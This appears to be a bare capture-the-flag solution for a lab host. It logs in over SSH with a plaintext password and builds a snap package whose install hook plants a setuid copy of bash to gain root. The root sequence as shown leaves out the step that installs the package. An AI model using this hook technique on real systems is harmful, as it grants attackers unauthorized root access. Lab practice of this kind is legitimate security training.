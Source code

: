 # Get User:
ssh brucetherealadmin@10.10.10.233
password:booboo
cat user.txt

# Get Root:
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\ncp /bin/bash /home/brucetherealadmin/.w/rootbash && chmod +s /home/brucetherealadmin/.w/rootbash' > meta/hooks/install
chmod +x meta/hooks/install
fpm -n waza -s dir -t snap -a all meta
cat /root/root.txt

